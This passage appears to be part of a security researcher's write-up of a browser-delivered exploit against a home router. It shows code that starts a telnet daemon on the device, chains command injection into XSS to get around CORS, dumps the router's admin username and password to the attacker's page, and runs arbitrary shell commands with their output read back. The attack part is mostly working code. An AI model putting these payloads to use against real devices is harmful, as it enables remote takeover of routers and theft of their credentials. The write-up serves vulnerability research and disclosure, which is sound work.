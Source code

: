 ```python
    cmd_exec(target, '/bin/utelnetd', silent = True)
```

### Bypassing CORS in the remote from the Internet scenario

When running the exploit via the browser, one issue that arises is that the origin `longue-vue.net` is not allowed to read cross origin data (the router's web pages). Even though it can POST / GET and trigger the issues discussed above (because of lack of CSRF tokens) it cannot read the result.

The trick that I used to bypass this is to create an XSS with the command execution vulnerability: `/bin/echo XSSPAYLOAD`. The XSS payload runs in the context of the router website's origin and as a result can leak the data back to the attacker server (using `postMessage`). Below is the code that leaks the HTTP credentials over the web:

```js
//
// Dump the passwords of the administrator.
//

function dumpPasswords() {
  const payload = `fetch('/setup.cgi?next_file=passwordrecovered.htm&foo=currentsetting.htm').then(r=>r.text()).then(r=>parent.postMessage(r, '*')).catch(r=>parent.postMessage('failed','*'))`;
  return execute(payload).then(R => {
    const [loginMatch, pwdMatch] = R.matchAll(/Router Admin (?:Username|Password)<\/span>:&nbsp;(.+)<\/td>/g);
    return {'login':loginMatch[1], 'pwd':pwdMatch[1]};
  });
}
```

This is how I read the output of an arbitrary command executed on the target:

```js
//
// Execute a shell command on the router.
//

function executeCommand(command) {
  if (command.includes(';') || command.includes('-')) {
    throw 'cannot inject ";" or "-"';
  }

  const payload = "parent.postMessage(document.body.outerHTML,'*')";
  const commands = ['/bin/echo BEGIN', command, '/bin/echo END'];
  return execute(payload, commands).then(r => {
    const [_, result] = r.match(/BEGIN\n(.+)\nEND/s);
    return result;
  });
}
```

## Authors
* Axel '[0vercl0k](https://twitter.com/0vercl0k)' Souchet
